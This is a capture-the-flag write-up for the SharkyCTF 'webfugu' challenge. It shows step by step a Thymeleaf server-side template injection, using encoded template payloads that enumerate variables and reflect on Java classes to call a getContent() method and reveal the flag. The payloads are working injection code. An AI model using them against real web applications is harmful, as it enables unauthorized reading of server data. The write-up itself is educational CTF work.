








# Problem Statement

A new site listing the different species of fugu fish has appeared on the net. Used by many researchers, it is nevertheless vulnerable. Find the vulnerability and exploit it to recover some of the website configuration.

Creator: MasterFox

http://webfugu.sharkyctf.xyz

# Solution

Load up the site press F12 to bring up dev tools. Hit refresh. Boom, something interesting:

Let's see the full content: http://webfugu.sharkyctf.xyz/process?page=PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=

So, page is

    PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=
    
This looks like a Base64 encoding, but with a twist (notice the %2 and probably others). So I suspect it's a url encoding of a base64 encoding, if that makes sense. Let's see (use any online or commandline tool)

After url decoding:

    PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI+IDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg+RGlzY292ZXJ5IHllYXI8L3RoPiA8dGg+RGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ+IDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ+IDwvdHI+IDwvdGFibGU+IDwvZGl2PiAgICAgIAo=
    
Much better, let's base64 decode:

    
 <table border="1"> <tr> <th>Name</th> <th>Discovery year</th> <th>Discoverer name</th> </tr> <tr th:each ="fish : ${fishes}"> <td th:utext="${fish.name}">...</td> <td th:utext="${fish.discoveryYear}">...</td> <td th:utext="${fish.discovererName}">...</td> </tr> </table> 

    
Hard to read, let's pretty print (we'll base64+url encode either way, it's better to see the structure easier):

    

       <table border="1">
          <tr>
             <th>Name</th>
             <th>Discovery year</th>
             <th>Discoverer name</th>
          </tr>
          <tr th:each ="fish : ${fishes}">
             <td th:utext="${fish.name}">...</td>
             <td th:utext="${fish.discoveryYear}">...</td>
             <td th:utext="${fish.discovererName}">...</td>
          </tr>
      </table>
    

OCD satisfied. On to WTH is this? th:each? I've never seen that. Let's Google:

Thymeleaf. Hmm Thymeleaf

    Thymeleaf is a modern server-side Java template engine for both web and standalone environments. Thymeleaf's main goal is to bring elegant
    
Cool, so Thymeleaf is our new friend who will do our work for us. On to StackOverflow:

Click first link, see a payload vaguely similar in structure to our own html:

    <table>
        <tr th:each="var : ${#vars.getVariableNames()}">
            <td th:text="${var}"></td>
            <td th:text="${#vars.getVariable(var)}"></td>
        </tr>
        ....
    </table>

Let's try to make a payload (in the actual CTF run the first tests were to put arbitrary expressions in like ${3*7} to see if they get executed.)

    

       <table border="1">
          <tr>
             <th>Name</th>
             <th>Discovery year</th>
             <th>Discoverer name</th>
          </tr>
          <tr th:each ="var : ${#vars.getVariableNames()}">
             <td th:utext="${var}"></td>
             <td th:utext="${#vars.getVariable(var)}"></td>
             <td th:utext="${3*2}"></td>
          </tr>
      </table>
    

One base64 encode + url encode later (paranoia perhaps urlencode is no longer needed, since we got rid of some '...' strings in the xml), we get a payload (not pasting the string result, as that can vary because of spacing). We then apply that payload to:

    http://webfugu.sharkyctf.xyz/process?page=PGRpdj4K.....
    

Last thing I wanted to see:"REDACTED", the dread of any CTF-er. :). Not giving up yet, let's dig mnore
    
    

    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="field: ${fishes[0].class.declaredFields}">
         <td th:utext="${field.name}"></td>
         <td th:utext="${2*2}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    

Which got us:

Dig for the flag class too

    

    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="field: ${flag.class.declaredFields}">
         <td th:utext="${field.name}"></td>
         <td th:utext="${field}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    

 
Which gets us: 
 
 
    
Aargh! A private field. I spent the next hours fixated on the fact that it's private and trying to find a way to reflect into it (perhaps setting "flag.class.getField("content").setAccessible(true)" before attempting to call flag.class.getField("content").getValue(flag)". If confused, read up on Java Reflection. And I fixated and fixated and fixated.

Luckily, at some point a friend of mine (randomly talking to on phone), who's more into Java, asks me: "what about methods?"

    

    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="method: ${flag.class.getMethods()}">
         <td th:utext="${method.name}"></td>
         <td th:utext="${method}"></td>
         <td th:utext="${3*3}"></td>
      </tr>
    </table>
    

    
Which gets us:

 

Ha! there is a method called getContent() for the flag class. Overthinker that I am I tried to reflect more :) field.class.getMethod("getContent", flag.class).invoke(flag) and other crazy shenanigans all ending in 500's.

But at some point, I stopped and realized the extent of my shortsightedness (I probably could have "guessed" the answer much earlier had I had a Java background), as I began suspecting that I could do what I'm about to do with the next payload. I wanted this payload so that when it was successful, I could see the flag multiple times, so I don't miss it :)

    

    <table border="1">
      <tr>
         <th>Name</th>
         <th>Discovery year</th>
         <th>Discoverer name</th>
      </tr>
      <tr th:each ="method: ${flag.class.getMethods()}">
         <td th:utext="${flag.getContent()}"></td>
         <td th:utext="${flag.getContent()}"></td>
         <td th:utext="${flag.getContent()}"></td>
      </tr>
    </table>
    

Wooop, there it iiis!

 

# Flag
shkCTF{w31rd_fishes_6ee9f7aabf6689c6684ad9fd9ffbae5a}
